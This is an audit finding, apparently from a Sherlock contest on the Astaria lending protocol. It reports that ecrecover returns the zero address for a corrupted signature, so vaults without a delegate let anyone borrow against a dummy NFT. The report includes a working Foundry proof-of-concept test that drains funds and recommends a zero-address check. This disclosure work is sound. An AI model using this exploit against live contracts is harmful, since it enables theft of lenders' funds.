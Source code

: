 rvierdiiev

high

# Possible to pass signature check and borrow from any Vault for a dummy NFT

## Summary
It's possible to pass signature check and borrow from any `PrivateVault` or `PublicVault` with `delegate == address(0)`.
## Vulnerability Detail
`VaultImplementation.commitToLien` is created to give the ability to borrow from the vault. The conditions of loan are discussed off chain and `owner` or `delegate` of the vault then creates and signes deal details. Later borrower can provide it as `IAstariaRouter.Commitment calldata params` param to `VaultImplementation.commitToLien`. 

First of all the function validates, that the signed param is [valid](https://github.com/sherlock-audit/2022-10-astaria/blob/main/src/VaultImplementation.sol#L246-L249).
One of the checks is checking if the one who signed data is strategist or vault owner or delegate of the vault.

https://github.com/sherlock-audit/2022-10-astaria/blob/main/src/VaultImplementation.sol#L167-L185
```solidity
    address recovered = ecrecover(
      keccak256(
        encodeStrategyData(
          params.lienRequest.strategy,
          params.lienRequest.merkle.root
        )
      ),
      params.lienRequest.v,
      params.lienRequest.r,
      params.lienRequest.s
    );
    require(
      recovered == params.lienRequest.strategy.strategist,
      "strategist must match signature"
    );
    require(
      recovered == owner() || recovered == delegate,
      "invalid strategist"
    );
```
As you know ecrecover function car return address(0) as result. Also in `PrivateVault` delegate is always `0` and in `PublicVault` it can be 0, if not provided. That means that if `delegate` is 0 and `recovered == 0` then we will pass check.
## Impact
You can borrow all money from all vaults without delegate.
## Code Snippet
This is test that will show that problem exists. Note, that i have created Vault without delegate. Then i have created wrong signature(by adding `terms.lienRequest.v = 5` before sending commitment). And also i have set address(0) as strategist. This test was modified from existing. Just copy it to AstariaRouter.t.sol.

```solidity
function testBorrowIncorrectSigner() public {
    TestNFT nft = new TestNFT(1);
    address tokenContract = address(nft);
    uint256 tokenId = uint256(0);

    uint256 initialBalance = WETH9.balanceOf(address(this));

    // create a PublicVault with a 14-day epoch
    address publicVault = _createPublicVaultNoDelegate({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 14 days
    });

    // lend 50 ether to the PublicVault as address(1)
    _lendToVault(
      Lender({addr: address(1), amountToLend: 50 ether}),
      publicVault
    );

    assertEq(WETH9.balanceOf(address(this)), initialBalance);
    // borrow 10 eth against the dummy NFT
    _commitToLienWithIncorrectSignature({
      vault: publicVault,
      strategist: strategistOne,
      strategistPK: strategistOnePK,
      tokenContract: tokenContract,
      tokenId: tokenId,
      lienDetails: standardLien,
      amount: 10 ether,
      isFirstLien: true
    });

    uint256 collateralId = tokenContract.computeId(tokenId);

    // make sure the borrow was successful
    assertEq(WETH9.balanceOf(address(this)), initialBalance + 10 ether);
  }

  function _createPublicVaultNoDelegate(
    address strategist,
    address delegate,
    uint256 epochLength
  ) internal returns (address publicVault) {
    vm.startPrank(strategist);
    //bps
    publicVault = ASTARIA_ROUTER.newPublicVault(
      epochLength,
      address(0),
      uint256(5000)
    );
    vm.stopPrank();
  }

  function _commitToLienWithIncorrectSignature(
    address vault, // address of deployed Vault
    address strategist,
    uint256 strategistPK,
    address tokenContract, // original NFT address
    uint256 tokenId, // original NFT id
    IAstariaRouter.LienDetails memory lienDetails, // loan information
    uint256 amount, // requested amount
    bool isFirstLien
  ) internal {
    if (isFirstLien) {
      ERC721(tokenContract).safeTransferFrom(
        address(this),
        address(COLLATERAL_TOKEN),
        uint256(tokenId),
        ""
      ); // deposit NFT in CollateralToken
    }
    uint256 collateralTokenId = tokenContract.computeId(tokenId);

    bytes memory validatorDetails = abi.encode(
      IUniqueValidator.Details({
        version: uint8(1),
        token: tokenContract,
        tokenId: tokenId,
        borrower: address(0),
        lien: lienDetails
      })
    );

    (
      bytes32 rootHash,
      bytes32[] memory merkleProof
    ) = _generateLoanMerkleProof2({
        requestType: IAstariaRouter.LienRequestType.UNIQUE,
        data: validatorDetails
      });

    // setup 712 signature

    IAstariaRouter.StrategyDetails memory strategyDetails = IAstariaRouter
      .StrategyDetails({
        version: uint8(0),
        //provide 0 here to pass strategist check
        strategist: address(0),
        deadline: block.timestamp + 10 days,
        vault: vault
      });

    bytes32 termHash = keccak256(
      VaultImplementation(vault).encodeStrategyData(strategyDetails, rootHash)
    );

    IAstariaRouter.Commitment memory terms = _generateTerms(
      GenTerms({
        tokenContract: tokenContract,
        tokenId: tokenId,
        termHash: termHash,
        rootHash: rootHash,
        pk: 77,
        strategyDetails: strategyDetails,
        validatorDetails: validatorDetails,
        amount: amount,
        merkleProof: merkleProof
      })
    );

    //corrupt signature to get 0 from ecrecover
    terms.lienRequest.v = 5;
    VaultImplementation(vault).commitToLien(terms, address(this));
  }
```
## Tool used

Manual Review

## Recommendation
Add check that `recovered != address(0)`.